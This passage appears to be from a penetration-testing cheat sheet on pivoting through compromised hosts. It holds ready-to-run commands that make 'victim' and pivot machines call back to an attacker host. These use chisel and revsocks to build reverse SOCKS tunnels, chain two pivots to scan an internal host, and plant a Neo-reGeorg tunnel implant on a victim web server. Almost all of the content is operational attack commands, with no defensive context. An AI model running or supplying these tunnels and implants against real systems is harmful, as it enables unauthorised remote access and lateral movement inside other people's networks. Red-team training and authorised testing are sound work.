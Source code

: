Socks5 proxy in client mode:

```
snovvcrash@kali:~$ ./chisel server -p 8000 --reverse --socks5 [--auth snovvcrash:'Passw0rd!']
alice@victim:~$ nohup ./chisel client [--fingerprint <BASE64_STRING>] [--auth snovvcrash:'Passw0rd!'] 10.10.13.37:8000 R:[127.0.0.1:1080:]socks &
```


#### Double SOCKS Proxy

![Double SOCKS Proxy Scheme](/.gitbook/assets/003.png)

```
snovvcrash@kali:~$ ./chisel server -p 8000 --reverse --socks5
alice@pivot1:~$ nohup ./chisel client 10.10.13.37:8000 R:socks &
alice@pivot1:~$ nohup ./chisel server -p 8000 --reverse --socks5 &
bob@pivot2:~$ nohup ./chisel client 192.168.1.11:8000 R:socks &
snovvcrash@kali:~$ cp /etc/proxychains4.conf .
snovvcrash@kali:~$ echo 'socks5 127.0.0.1 1080' >> proxychains4.conf
snovvcrash@kali:~$ echo 'socks5 127.0.0.1 1080' >> proxychains4.conf
snovvcrash@kali:~$ proxychains4 -f ./proxychains4.conf nmap -Pn -sT 192.168.3.33 -p445
```


#### SharpChisel

- [https://github.com/shantanu561993/SharpChisel](https://github.com/shantanu561993/SharpChisel)
- [https://github.com/latortuga71/SharpChisel-NG](https://github.com/latortuga71/SharpChisel-NG)
- [https://medium.com/@shantanukhande/red-team-how-to-embed-golang-tools-in-c-e269bf33876a](https://medium.com/@shantanukhande/red-team-how-to-embed-golang-tools-in-c-e269bf33876a)
- [https://github.com/m3rcer/Chisel-Strike](https://github.com/m3rcer/Chisel-Strike)



### revsocks

* [https://github.com/kost/revsocks](https://github.com/kost/revsocks)

```
snovvcrash@kali:~$ ./revsocks -listen :8000 -socks 127.0.0.1:1080 -pass 'Passw0rd!'
alice@victim:~$ ./revsocks -connect 10.14.14.3:8000 -pass 'Passw0rd!'
```



### Neo-reGeorg

* [https://github.com/L-codes/Neo-reGeorg](https://github.com/L-codes/Neo-reGeorg)
* [https://github.com/sensepost/reGeorg](https://github.com/sensepost/reGeorg)

Generate a tunnel implant and copy it to the Victim web server from `./neoreg_servers/tunnel*`:

```
$ python neoreg.py generate -k 'Passw0rd!'
```

Connect to the implant (`.aspx`, for example):

```
$ python neoreg.py -k 'Passw0rd!' -u http://web01.megacorp.local/tunnel.aspx -l 0.0.0.0 -p 1337 [--skip]
```
